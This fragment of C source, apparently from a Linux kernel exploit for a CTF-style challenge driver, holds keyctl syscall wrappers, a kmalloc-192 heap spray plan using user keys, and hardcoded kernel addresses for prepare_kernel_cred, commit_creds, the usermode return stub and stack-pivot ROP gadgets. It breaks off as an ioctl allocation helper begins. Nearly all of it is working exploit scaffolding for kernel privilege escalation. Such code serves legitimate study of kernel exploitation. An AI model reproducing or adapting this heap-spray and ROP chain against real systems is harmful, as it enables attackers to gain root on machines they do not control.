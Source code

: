 ```c
{
    return syscall(__NR_keyctl, KEYCTL_UPDATE, keyid, payload, plen);
}

int key_read(int keyid, void *buffer, size_t buflen)
{
    return syscall(__NR_keyctl, KEYCTL_READ, keyid, buffer, buflen);
}

int key_revoke(int keyid)
{
    return syscall(__NR_keyctl, KEYCTL_REVOKE, keyid, 0, 0, 0);
}

int key_unlink(int keyid)
{
    return syscall(__NR_keyctl, KEYCTL_UNLINK, keyid, KEY_SPEC_PROCESS_KEYRING);
}

/**
 * Challenge interactiver
 */

/* kmalloc-192 has only 21 objects on a slub, we don't need to spray to many */
#define KEY_SPRAY_NUM 40

#define PIPE_INODE_INFO_SZ 192
#define PIPE_BUFFER_SZ 1024

#define USER_FREE_PAYLOAD_RCU 0xffffffff813d8210
#define PREPARE_KERNEL_CRED 0xffffffff81096110
#define COMMIT_CREDS 0xffffffff81095c30
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81e00ed0

#define PUSH_RSI_POP_RSP_POP_RBX_POP_RBP_POP_R12_RET 0xffffffff81250c9d
#define POP_RBX_POP_RBP_POP_R12_RET 0xffffffff81250ca4
#define POP_RDI_RET 0xffffffff8106ab4d
#define XCHG_RDI_RAX_DEC_STH_RET 0xffffffff81adfc70

int dev_fd;

struct node {
    uint32_t idx;
    uint32_t size;
    void *buf;
};

/**
 * @brief allocate an object bby kmalloc(size, __GFP_ZERO | GFP_KERNEL )
 * __GFP_RECLAIM = __GFP_KSWAPD_RECLAIM | __GFP_DIRECT_RECLAIM 
 * GFP_KERNEL = __GFP_RECLAIM | __GFP_IO | __GFP_FS
 * 
 * @param idx 
 * @param size 
 * @param buf 
 */
void alloc(uint32_t idx, uint32_t size, void *buf)
{
    struct node n = {
        .idx = idx,
        .size = size,
        .buf = buf,
    };
```
